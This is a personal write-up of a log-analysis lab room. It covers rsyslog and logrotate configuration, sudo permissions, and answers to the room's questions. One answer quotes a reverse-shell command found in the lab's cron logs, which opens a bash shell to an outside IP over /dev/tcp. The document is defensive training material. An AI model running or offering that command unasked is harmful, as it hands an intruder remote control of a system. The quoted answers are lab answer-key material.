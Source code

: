 ## Room goals:
- Understand the importance of logs as a historical activity record for identifying and mitigating potential threats
- Explore various types of logs, logging mechanisms and collection methods across multiple platforms
- Gain hands-on experience detecting and defeating adversaries through log analysis

## Scenario 
- web server being constantly hit with scans
- configure logging and analyze the logs to see what adversary is doing

user `damianhall` limited sudo priveledges
- `sudo -l` --> check what commands user has access to

```
User damianhall may run the following commands on WEBSRV-02:
    (ALL) NOPASSWD: /bin/systemctl status rsyslog
    (ALL) NOPASSWD: /bin/systemctl start rsyslog
    (ALL) NOPASSWD: /bin/systemctl stop rsyslog
    (ALL) NOPASSWD: /bin/systemctl restart rsyslog
    (ALL) NOPASSWD: /bin/systemctl status logrotate
    (ALL) NOPASSWD: /bin/systemctl start logrotate
    (ALL) NOPASSWD: /bin/systemctl stop logrotate
    (ALL) NOPASSWD: /bin/systemctl restart logrotate
    (ALL) NOPASSWD: /usr/sbin/logrotate -d /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/sbin/logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/gedit /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/nano /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/vim /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/vi /etc/logrotate.d/98-websrv-02_sshd.conf
```

- looks like can edit some config files and also access to start / stop rsyslog and logrotate

## Notes
useful locations (from `Note.txt` on machine desktop)

`/var/log/gitlab/`
`/var/log/gitlab/nginx/access.log` suspicious web browser activity 

logrotate configuration
`/etc/logrotate.d/`

components of gitlab instance 
`/var/opt/gitlab/logrotate/logrotate.d/`

### Questions
What is the name of your colleague who left a note on your Desktop?
- `Perry` (Desktop `note.txt`)

What is the full path to the suggested log file for initial investigation?
- `/var/log/gitlab/nginx/access.log` (Desktop `note.txt`)

Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?
- `web server log`
    - nginx logs (a webserver)

Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?
- `combined`
    - NCSA Combined Log Format (Combined): An extension of CLF, adding fields like referrer and user agent. It is typically used by **Nginx** HTTP Server by default.

After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?
- `stansimon`

![alt text](images/image-2.png)

What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?
- `10.10.10.101`

![alt text](images/image-3.png)

Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?
- `/bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"`

![alt text](images/image-4.png)
- a reverse shell command...

Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?
- 24

![alt text](images/image-6.png)

Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?
- hourly

Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?
- `no date field`

![alt text](images/image-7.png)

What is the process of standardising parsed data into a more easily readable and query-able format?
- `normalisation`
    - with an "s"

What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?
- `Enrichment`

### Practical Examples
#### Log Collection with Rsyslog
first ssh'd into the machine from my kali attackbox

check if rsyslog is installed / running:

![alt text](images/image.png)

create config file:

`vim /etc/rsyslog.d/98-websrv-02-sshd.conf`
```
$FileCreateMode 0644
:programname, isequal, "sshd" /var/log/websrv-02/rsyslog_sshd.log
```

restart rsyslog: `sudo systemctl restart rsyslog`

check its all working:

![alt text](images/image-1.png)

#### Practical Activity: Log Management with logrotate
- automates log file rotation, compression, and management
- setup for `/var/log/websrv-02/rsyslog_sshd.log`

1. create config file: `sudo vim /etc/logrotate.d/98-websrv-02_sshd.conf`
```
/var/log/websrv-02/rsyslog_sshd.log {
    daily
    rotate 30
    compress
    lastaction
        DATE=$(date +"%Y-%m-%d")
        echo "$(date)" >> "/var/log/websrv-02/hashes_"$DATE"_rsyslog_sshd.txt"
        for i in $(seq 1 30); do
            FILE="/var/log/websrv-02/rsyslog_sshd.log.$i.gz"
            if [ -f "$FILE" ]; then
                HASH=$(/usr/bin/sha256sum "$FILE" | awk '{ print $1 }')
                echo "rsyslog_sshd.log.$i.gz "$HASH"" >> "/var/log/websrv-02/hashes_"$DATE"_rsyslog_sshd.txt"
            fi
        done
        systemctl restart rsyslog
    endscript
}
```
2. execute `sudo logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf`
